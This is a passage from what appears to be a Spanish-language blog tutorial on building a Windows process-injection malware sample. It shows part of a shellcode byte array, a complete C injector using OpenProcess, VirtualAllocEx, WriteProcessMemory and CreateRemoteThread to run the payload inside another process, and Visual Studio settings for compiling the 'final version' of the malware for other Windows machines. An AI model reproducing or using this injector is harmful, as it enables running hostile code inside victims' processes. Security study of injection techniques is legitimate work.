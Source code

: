 ```c
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // thread handle
  PVOID rb; // remote buffer

  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

### Compilación

#### Microsoft Visual Studio

En este caso si deseamos compilar el malware desde Visual Studio deberemos de configurar una serie de opciones para que no de error otros equipos a la hora de ejecutar el malware, ya sean maquinas virtuales o equipos de escritorio.

##### Code Generation Visual Studio

![](https://thespartoos.github.io/assets/img/favicons/RPInjection/errorRuntime.png)

En este apartado lo que vamos a modificar es que a la hora de generar el código nos permita le deberemos de especificar &nbsp;`Multi-threaded Debug (/Mtd)`&nbsp; en caso de que deseemos el binario con una biblioteca de tiempo de ejecución que a su vez incluye información de depuración. Para la versión final del malware es recomendable utilizar &nbsp;`Multi-threaded (/MT)`&nbsp;.

![](https://thespartoos.github.io/assets/img/favicons/RPInjection/generationFix.png)

Al utilizarlo podremos compilar para cualquier equipo para Windows x64.

#### Desde un sistema Linux

Desde un sistema Linux
